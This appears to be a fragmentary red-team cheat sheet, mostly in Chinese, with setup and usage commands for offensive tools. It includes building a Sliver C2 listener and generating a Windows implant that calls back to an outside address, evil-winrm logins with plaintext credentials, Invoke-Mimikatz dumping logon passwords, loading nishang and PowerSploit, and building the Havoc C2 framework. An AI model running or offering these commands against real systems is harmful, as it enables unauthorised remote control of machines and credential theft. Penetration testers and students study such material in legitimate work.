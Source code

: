 git clone https://github.com/GONZOsint/geowifi.git

python3 -m pip install -r requirements.txt

E.G.

python3 geowifi.py

python3 geowifi.py -b c4:xx:xxx:xxx:a8:c0

## Pocsuite3 漏洞框架pip3 install pocsuite3

## sliver c2工具

启动./sliver-server_linux# 创建监听器http -l 9999# 生成Implant/Payloadgenerate --http http://172.16.181.182:9001 --os windowsuse <sessionid>参考文章 https://forum.butian.net/index.php/share/2243

提供了两种操作模式Beacon mode：实现了一种异步通信方式，定期（1min）检查通信情况Session mode：实现了实时会话方式

## 红队神器 evil-winrm 

在powershell窗口中(管理员身份运行)输入enable-psremoting，启用WinRM会话配置evil-winrm -i 192.168.5.38 -u kali -p admin12345 

evil-winrm -i 192.168.5.38 -u kali -p admin12345 

evil-winrm -i 192.168.5.38 -u kali -p admin12345 -s /opt/privsc/powershell

Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"' //获取密码

Import-Module .\nishang.psm1   Import-Module .\powerspoilt.psm1  

## 基于C++和Qt的C2工具Havoc

git clone https://github.com/HavocFramework/Havoc.git

cd Havoc

sudo apt install -y git build-essential apt-utils cmake libfontconfig1 libglu1-mesa-dev libgtest-dev libspdlog-dev libboost-all-dev libncurses5-dev libgdbm-dev libssl-dev libreadline-dev libffi-dev libsqlite3-dev libbz2-dev mesa-common-dev qtbase5-dev qtchooser qt5-qmake qtbase5-dev-tools libqt5websockets5 libqt5websockets5-dev qtdeclarative5-dev golang-go qtbase5-dev libqt5websockets5-dev python3-dev libboost-all-dev mingw-w64 nasm

cd teamserver

go mod download golang.org/x/sys

go mod download github.com/ugorji/go

cd ..

make ts-build

./havoc server --profile ./profiles/havoc.yaotl -v --debug

make client-build
